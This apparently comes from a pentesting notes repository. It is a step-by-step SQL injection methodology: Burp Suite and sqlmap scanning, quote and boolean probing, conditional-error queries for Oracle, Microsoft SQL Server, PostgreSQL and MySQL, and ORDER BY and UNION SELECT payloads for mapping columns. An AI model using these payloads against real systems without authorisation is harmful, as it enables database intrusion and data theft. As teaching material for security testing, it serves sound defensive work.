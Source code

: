 ### Methods To Find SQLi

1. Using BurpSuit:
    ```
    1. Capture the request using burpsuite.
    2. Send the request to burp scanner.
    3. Proceed with active scan.
    4. Once the scan is finished, look for SQL vulnerability that has been detected.
    5. Manually try SQL injection payloads.
    6. Use SQLMAP to speed up the process.
    ```

    

2. Error generation with untrusted input or special characters :
    ```
    1. Submit single quote character ' & look for errors.
    2. Submit SQL specific query.
    3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
    4. Submit certain payloads that results in time delay.
    ```

    You can test a single boolean condition and trigger a database error if the condition is true.

    | Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
    | :--------- | ------------------------------------------------------------ |
    | Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
    | PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
    | MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

3. Finding total number of columns with order by or group by or having :
    ```sql
    Submit a series of ORDER BY clause such as 
    
    ' ORDER BY 1 --
    ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.
    ```

4. Finding vulnerable columns with union operator :
    ```sql
    Submit a series of UNION SELECT payloads.
    
    ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
    (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
    ```

5. Extracting basic information like `database()`, `version()`, `user()`, `UUID() `with `concat()` or `group_concat()`

